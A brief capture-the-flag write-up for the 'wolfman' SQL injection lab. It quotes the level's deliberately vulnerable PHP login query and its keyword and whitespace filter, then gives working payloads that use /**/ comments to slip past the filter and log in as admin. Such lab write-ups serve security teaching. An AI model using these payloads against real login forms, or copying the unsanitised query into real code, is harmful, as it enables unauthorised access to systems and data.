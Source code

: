 ```php
query : select id from prob_wolfman where id='guest' and pw=''
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>

```

Explain:

So, i just handle only `pw` parameter.

- check prob, ., _, () 
- / /i : no whitespace

Because this lab `not allowed no whitespace`, and this lab using `mysql`, using `inline comment /**/` to bypass this

Payload: 

true condition `'/**/or/**/1=1#` return `guest`

another true condition with `AND`, `'/**/or/**/1=1/**/and/**/id='admin'#` return `admin`

